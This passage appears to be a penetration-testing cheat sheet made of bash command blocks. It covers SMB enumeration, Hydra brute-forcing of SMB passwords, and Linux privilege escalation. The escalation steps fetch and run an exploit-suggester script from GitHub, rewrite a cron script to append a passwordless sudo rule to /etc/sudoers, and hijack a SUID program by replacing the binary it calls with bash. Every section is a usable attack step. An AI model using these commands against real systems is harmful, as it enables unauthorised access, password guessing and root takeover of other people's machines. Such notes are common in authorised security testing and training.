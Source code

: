 #### SAMBA

```bash
# SAMBA
smbmap -u <USER> -p '<PW>' -H <TARGET_IP>

smbclient -L <TARGET_IP> -U <USER>

enum4linux -a <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> smb
```

### Linux Privilege Escalation

#### Kernel

```bash
# LINUX KERNEL
## Linux-Exploit-Suggester Install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O linux-exploit-suggester.sh

chmod +x linux-exploit-suggester.sh

./linux-exploit-suggester.sh
```

#### Cron Jobs

```bash
# CRON
crontab -l

find / -name <CRONJOB_SCRIPT>

printf '#!/bin/bash\necho "<USER> ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/<CRONJOB_SCRIPT>
```

#### SUID

```bash
# SUID
file <FILE>
strings <FILE>
	# find called binary
rm <BINARY>
cp /bin/bash <BINARY>
./<FILE>
```
